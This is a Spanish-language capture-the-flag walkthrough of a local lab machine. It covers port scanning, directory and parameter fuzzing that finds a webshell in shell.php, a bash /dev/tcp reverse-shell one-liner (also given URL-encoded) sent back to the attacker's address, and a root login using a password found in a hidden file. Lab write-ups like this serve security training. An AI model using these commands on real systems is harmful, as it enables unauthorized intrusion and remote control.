

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Vemos que está corriendo un servidor Apache 2.4.57 en el puerto 80 con un servicio http. Vamos a ver que esconde la web.


Vemos que sale una web simple, vamos a realizar un fuzzing de la web para ver si tiene algún directorio o archivo oculto.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```


Vemos que nos salen dos archivos curiosos, vamos a ver que nos da el `warning.html`.


Vemos que nos mustra que la máquina se puede atacar por una webshell. Ahora vamos a ver que nos muestra el archivo `shell.php`.


Vemos que no muestra nada, así que vamos a realizar un fuzzing de variables para webshell.
```
wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --hc=404,500 -u "http://172.17.0.2/shell.php?FUZZ=id"
```


Vemos que con el payload `parameter` tenemos una webshell, ahora vamos a comprobar que funciona.


Vemos que funciona, ahora vamos a generarnos una reverse shell, para ello nos tenemos que poner a la escucha.
```
nc -lnvp
```


Una vez estamos a la escucha, vamos a urlencodear lo siguiente.
```
bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/6969 <&1'
```
Urlencodeado:
```
%62%61%73%68%20%2d%63%20%27%65%78%65%63%20%62%61%73%68%20%2d%69%20%26%3e%2f%64%65%76%2f%74%63%70%2f%31%37%32%2e%31%37%2e%30%2e%31%2f%36%39%36%39%20%3c%26%31%27
```

Una vez lo tenemos lo pegamos en la url después del `=`. Y si al darle enter se queda colgada la web es que habrá funcionado.


Ahora vamos a escalar privilegios. Nos dirigiremos a la carpeta `/tmp` y veremos que hay un archivo oculto llamado `.secret.txt`, lo abriremos y nos daremos cuenta que es la contraseña de root.
```
su root
password: contraseñaderoot123
```
